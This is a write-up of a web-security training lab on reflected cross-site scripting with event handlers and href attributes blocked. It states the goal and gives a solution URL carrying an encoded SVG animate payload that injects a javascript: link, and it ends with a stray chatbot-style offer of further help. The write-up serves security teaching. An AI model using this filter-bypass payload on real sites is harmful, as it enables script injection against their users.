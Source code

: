 # Lab 8: Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but **all events and anchor `href` attributes are blocked**.

---

### 🎯 **Goal**

Perform a cross-site scripting attack that injects a vector which, when clicked, calls the `alert` function.

> Important:
> 
> 
> You need to label your vector with the word **"Click"** to induce the simulated lab user to click it. For example:
> 
> ```jsx
> <a href="">Click me</a>
> ```
> 

---

### 🛠️ **Solution**

1️⃣ Visit the following URL, replacing `YOUR-LAB-ID` with your lab ID:

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

---

### 🎥 **Community solutions**

▶️ [Watch video walkthrough](https://youtu.be/SGi_IkgyKew)

---

If you'd like, I can help you create a visual diagram or a step-by-step guide for your team!